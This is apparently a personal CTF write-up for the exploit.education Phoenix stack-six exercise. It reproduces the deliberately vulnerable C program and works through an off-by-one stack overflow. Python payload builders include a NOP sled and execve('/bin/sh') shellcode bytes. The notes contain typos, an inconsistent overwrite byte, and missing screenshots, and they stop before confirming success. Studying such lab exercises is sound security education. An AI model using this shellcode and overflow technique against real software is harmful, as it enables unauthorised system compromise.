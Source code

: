 Source

```c
/*
 * phoenix/stack-six, by https://exploit.education
 *
 * Can you execve("/bin/sh", ...) ?
 *
 * Why do fungi have to pay double bus fares? Because they take up too
 * mushroom.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *what = GREET;

char *greet(char *who) {
  char buffer[128];
  int maxSize;

  maxSize = strlen(who);
  if (maxSize > (sizeof(buffer) - /* ensure null termination */ 1)) {
    maxSize = sizeof(buffer) - 1;
  }

  strcpy(buffer, what);
  strncpy(buffer + strlen(buffer), who, maxSize);

  return strdup(buffer);
}

int main(int argc, char **argv) {
  char *ptr;
  printf("%s\n", BANNER);

#ifdef NEWARCH
  if (argv[1]) {
    what = argv[1];
  }
#endif

  ptr = getenv("ExploitEducation");
  if (NULL == ptr) {
    // This style of comparison prevents issues where you may accidentally
    // type if(ptr = NULL) {}..

    errx(1, "Please specify an environment variable called ExploitEducation");
  }

  printf("%s\n", greet(ptr));
  return 0;
}
```

# Solution

We can fill up the buffer and overflow a single byte after the `strdup`

![](_attachments/Pasted%20image%2020230402100358.png)

![](_attachments/Pasted%20image%2020230402100321.png)

Perhaps we can manipulate this overflow to point back to the address of our environment variable

To find that, I used the following steps:

![](_attachments/Pasted%20image%2020230402105904.png)

I had to add 0x10 to the address, to skip the `ExploitEducation=` prefix, which leaves us with the address:
`0x0x7fffffffef10`

Because we can manipulate the last byte of the "buffer"/return address, lets check if our code is somwhere within this range `0x0x7fffffffe500 - 0x0x7fffffffe5ff`:
![](_attachments/Pasted%20image%2020230402105729.png)


![](_attachments/Pasted%20image%2020230402112141.png)

So when we return, we need to see if we can manipulate the address to be 0x00007fffffffe510. This will jump to our shellcode, probably should include a couple of nop's to make it line up correctly and then some real shellcode. 

You can see if we changed to value of RBP to `0x..a0`, itll jump to our shellcode.

Lets mod the shellcode to be `\x90 * 126 + \x10`

```python
from pwn import *

buf = b"\x90" * 126 + "\xa0"

print(buf)
```

![](_attachments/Pasted%20image%2020230402110541.png)
When we now break at main, we can see RBP is now pointing to our shellcode.
Lets change up the shellcode to be a real one..

```python
from pwn import *

shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

# build the payload - with a small nop sled
payload = b"\x90" * 20
payload += shellcode
payload += b"A" * (126 - len(payload))
# overwrite RIP byte
payload += b"\xa0"

print(payload)
```

So now when we run the program, it jumps into our shellcode

![](_attachments/Pasted%20image%2020230402112619.png)

However when running the program for real, we get a segfault.. probably due to changing environment variables and such, lets check it

![](_attachments/Pasted%20image%2020230402113510.png)
![](_attachments/Pasted%20image%2020230402113538.png)

Within GDB, the  _ environment variable is different.. causing different it to be at different memory addresses. Lets fix it up within gdb.

![](_attachments/Pasted%20image%2020230402113716.png)


I now have to go through and re-find all of the memory addresses and offsets :/

![](_attachments/Pasted%20image%2020230402115544.png)

After changing some env variables, and running with absolute paths as well as setting .gdbinit stuff i still get different memory addreses.

Brute foricing the way through till be land in the shell code is a pain in the ass.
